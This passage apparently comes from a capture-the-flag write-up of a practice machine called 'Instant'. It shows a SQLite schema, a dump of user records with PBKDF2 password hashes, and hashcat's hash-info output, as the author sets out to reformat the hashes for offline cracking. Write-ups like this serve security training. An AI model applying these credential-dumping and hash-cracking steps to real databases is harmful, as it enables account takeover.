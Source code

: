```
        invite_token VARCHAR, 
        PRIMARY KEY (id), 
        UNIQUE (wallet_id), 
        UNIQUE (invite_token)
);
CREATE TABLE wallet_transactions (
        id INTEGER NOT NULL, 
        sender VARCHAR, 
        receiver VARCHAR, 
        amount VARCHAR, 
        txn_fee VARCHAR, 
        note VARCHAR, 
        status VARCHAR, 
        PRIMARY KEY (id)
);
sqlite> 
```

```
sqlite> select * from wallet_users;
1|instantAdmin|admin@instant.htb|f0eca6e5-783a-471d-9d8f-0162cbc900db|pbkdf2:sha256:600000$I5bFyb0ZzD69pNX8$e9e4ea5c280e0766612295ab9bff32e5fa1de8f6cbb6586fab7ab7bc762bd978|2024-07-23 00:20:52.529887|87348|Admin|active
2|shirohige|shirohige@instant.htb|458715c9-b15e-467b-8a3d-97bc3fcf3c11|pbkdf2:sha256:600000$YnRgjnim$c9541a8c6ad40bc064979bc446025041ffac9af2f762726971d8a28272c550ed|2024-08-08 20:57:47.909667|42845|instantian|active
```

We get the PBKDF2 hashes for ```admin@instant.htb``` and ```shirohige@instant.htb```. With any luck, these passwords may be reused. However, they are curently not in a hashcat-friendly format. Hashcat expects ```sha256:1000:<base64 encoded salt>:<base64 encoded raw binary value of hash>```. 

```
┌──(kali㉿kali)-[/tmp]
└─$ hashcat -m 10900 --hash-info
hashcat (v6.2.6) starting in hash-info mode

Hash Info:
==========

Hash mode #10900
  Name................: PBKDF2-HMAC-SHA256
  Category............: Generic KDF
  Slow.Hash...........: Yes
  Password.Len.Min....: 0
  Password.Len.Max....: 256
  Salt.Type...........: Embedded
  Salt.Len.Min........: 0
  Salt.Len.Max........: 256
  Kernel.Type(s)......: pure
  Example.Hash.Format.: plain
  Example.Hash........: sha256:1000:NjI3MDM3:vVfavLQL9ZWjg8BUMq6/FB8FtpkIGWYk
  Example.Pass........: hashcat
  Benchmark.Mask......: ?b?b?b?b?b?b?b
  Autodetect.Enabled..: Yes
  Self.Test.Enabled...: Yes
  Potfile.Enabled.....: Yes
  Custom.Plugin.......: No
  Plaintext.Encoding..: ASCII, HEX
```
